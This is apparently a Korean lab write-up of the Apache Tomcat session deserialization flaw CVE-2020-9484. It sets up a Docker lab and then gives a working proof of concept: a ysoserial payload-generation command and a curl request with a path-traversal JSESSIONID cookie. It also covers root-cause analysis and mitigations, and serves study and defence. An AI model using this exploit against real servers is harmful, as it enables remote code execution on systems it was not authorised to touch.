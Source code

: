 # CVE-2020-9484 



## 0. 취약한 환경 버전

#### Apache Tomcat

> 7.0.0 ~ 7.0.103
>
> 8.5.0 ~ 8.5.54
>
> 9.0.0.M1 ~ 9.0.34
>
> 10.0.0-M1 ~ 10.0.0-M4

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **ysoserial**

<br>

> CommonsCollections2 가젯 체인을 이용하여 공격 코드가 포함된 세션 파일 생성 ( docker 파일 내 첨부되어 따로 실행하지 않아도 됨)

``````
java -jar ./ysoserial-master.jar CommonsCollections2 'tocuh /tmp/rce' > groovy.session
``````

<br>

ysoserial: https://github.com/frohoff/ysoserial

<br>

> docker 파일이 존재하는 git 서버 클론

```
git clone https://github.com/masahiro331/CVE-2020-9484.git
```
<br>

![1](https://user-images.githubusercontent.com/89399749/142800342-9f65e411-9825-401d-ac83-56318231ff51.png)



<br>



> 톰캣 서버 이미지 생성

```docker build -t tomcat:groovy .
docker build -t tomcat:groovy .
```
<br>

![2](https://user-images.githubusercontent.com/89399749/142800388-e3185355-e0eb-4ce7-9c74-8254eb35a953.png)


<br>


>호스트 8080번 포트를 도커의 8080포트로 전달하여 실행

```docker run -d -p 8080:8080 tomcat:groovy
docker run -d -p 8080:8080 tomcat:groovy
```

<br>

![3](https://user-images.githubusercontent.com/89399749/142800402-544253c4-a8ec-443c-bb0c-7ffee4e0ec12.png)


<br>


> 도커 프로세스 확인

```
docker ps -a
```
<br>

![4](https://user-images.githubusercontent.com/89399749/142800426-7f9b048e-ebfe-42ca-a215-cf2b93834402.png)


<br>

> 도커 진입

```docker exec -t -i 이름 /bin/bash
docker exec -t -i 이름 /bin/bash
```
<br>

![5](https://user-images.githubusercontent.com/89399749/142800451-014b029d-190f-4396-bffe-c2e893ba341a.png)


<br>

## 2. PoC



> 아파치 서버 웹페이지 확인

<br>

![7](https://user-images.githubusercontent.com/89399749/142800468-a7095174-4e8e-4383-963c-c915b8d61d9f.png)


<br>



> tmp 폴더 확인

```cd /tmp & ls
cd /tmp & ls
```

<br>

![6](https://user-images.githubusercontent.com/89399749/142800480-dc71568b-ab33-4f59-b823-884c24da5245.png)


<br>





> 취약한 Session Deserialization을 이용하여 rce 파일 삽입

```
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy
```

<br>

![8](https://user-images.githubusercontent.com/89399749/142800500-aab3a583-37a9-4f53-9e1b-49f2fb55075b.png)


<br>





## 3. 원인 분석

Tomcat에서 사용하는 Session Manager는 Standard Manager와 Persistent Manager 2가지가 있다. Standard Manager는 Tomcat 기본 설정으로 메모리에 세션을 저장하다가 서버의 재시작/정지 시에 세션 데이터를 직렬화하여 session.ser 파일에 저장한다. 서버 에러 등 예기치 않은 정지 시에는 세션 데이터가 저장되지 않는다. 

<br>

Persistent Manager는 Standard와 동일하나 일정 시간 사용되지 않는 세션을 가져와 파일 또는 데이터베이스에 저장한다. 세션을 저장할 때는 세션 데이터를 직렬화하여 저장하고, 해당 세션 요청이 들어오면 역직렬화하여 메모리에 가져온다.

<br>

Persistent Manager를 사용하여 세션을 관리할 때에는 세션을 저장할 디렉터리를 정할 수 있다. Store 요소 안에 className 속성을 org.apache.catalina.FileStore로 지정하면 directory 속성으로 저장할 디렉터리를 지정할 수 있으며, 세션ID를 사용해 파일 이름을 저장한다. className 속성을 org.apache.caltalina.JDBCStore로 지정하면 개별 행으로 저장되는 데이터베이스에 세션이 저장된다

<br>

```xml
<Manager className="org.apache.catalina.session.PersistentManager" sessionAttributeValueClassNameFilter="">

<Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>

</Manager>
```


<br>


**RCE 실행 조건**

1. 공격자는 서버에 있는 파일 내용과 이름을 제어할 수 있는 경우
2. 서버가 PersistenceManager의 FileStore를 사용하도록 구성된 경우
3. PersistenceManager가 sessionAttributeValueClassNameFilter="null" 또는 공격자가 제공한 개체를 역직렬화할 수 있도록 필터 구성이 미흡한 경우
4. 공격자는 FileStore에서 사용하는 스토리지 위치와 제어가능한 파일의 상대 경로를 아는 경우


<br>


## 4. 대응 방안

1. Persistent Manger 주석처리
2. FileStore 기능을 비활성화하거나 sessionAttributeValueClassNameFilte 값을 별도로 구성하여 특정 속성을 가진 개체만 직렬화/역직렬화할 수 있도록 조치
3. 버전 업그레이드

<br>



## 참조

1. https://github.com/masahiro331/CVE-2020-9484

2. https://github.com/frohoff/ysoserial
3. https://m.blog.naver.com/skinfosec2000/222042818637

